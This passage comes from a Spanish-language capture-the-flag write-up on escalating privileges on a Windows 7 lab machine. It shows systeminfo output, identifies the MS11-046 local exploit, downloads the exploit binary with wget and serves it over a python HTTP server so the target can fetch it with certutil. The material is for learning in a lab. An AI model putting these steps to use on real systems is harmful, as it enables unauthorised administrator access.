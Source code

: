 <img src="/assets/images/devel/08-page6.png">  
</p>

## ESCALADA DE PRIVILEGIOS

En esta ocasión el escalamiento de privilegios no fue necesario debido a que la explotación del CVE nos permitió el acceso al usuario administrador directamente, dando una ventaja en cuando a la búsqueda de vías potenciales de escalamiento.

```bash
systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Luego de un poco de investigación de la versión de Windows `6.1.7600`, encontramos que es vulnerable al script [MS11-046.exe](https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe) del github de [abatchy17](https://github.com/abatchy17), por ende, procedemos a descargar este recurso.

```bash
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
```

Al obtener el exploit, activamos un servidor `http` con `python` por el puerto `80`.

```bash
sudo python3 -m http.server 80
```

En la máquina víctima realizamos la descarga desde la carpeta `C:\Windows\Temp` del exploit por medio de la utilidad `certutil.exe`.
